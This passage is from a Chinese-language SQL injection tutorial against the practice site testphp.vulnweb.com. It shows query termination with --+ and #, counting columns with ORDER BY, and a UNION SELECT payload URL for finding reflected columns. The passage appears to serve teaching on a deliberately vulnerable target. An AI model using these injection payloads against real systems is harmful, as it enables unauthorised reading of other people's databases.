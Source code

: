 **令人欣慰的是，现在我们知道可以用任何我们想要的方式修改查询。如果我将`--+`添加到末尾，查询应该会正确运行。(`--+`或者`#`基本会评论它之后写的任何东西。这是一个方便的知识，尽管在这种情况下可能没有用)**

**![](img/d7a443b8d3b3c071c6bb4d61a2582875.png)**

# **2.找出当前的数据库**

**下一步是找出现有的数据库。我们在这里使用了`ORDER BY`子句。如果我运行[http://testphp.vulnweb.com/listproducts.php?cat=1 order by 5](http://testphp.vulnweb.com/listproducts.php?cat=1 order by 5)，对应的 MySQL 查询将是**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 order by 5--+'
```

**这将根据第 5 列对结果进行排序**

**我将对不同的列号值重复这个过程，直到得到分页符所在的列号。在这种情况下，当`ORDER BY 12,`这一页打开时。我现在知道总共有 11 列。因为列数是 11，所以我将运行一个查询`select all 1,2,3,4,5,6,7,8,9,10,11`。**

**[**http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，2，3，4，5，6，7，8，9，10，11**](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,2,3,4,5,6,7,8,9,10,11)**

**相应的 MySQL 查询应该是这样的**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,2,3,4,5,6,7,8,9,10,11
```

**现在浏览网页。在某些地方，你会发现 1 到 11 之间的一些数字。我看到了数字 7，2 和 9。**
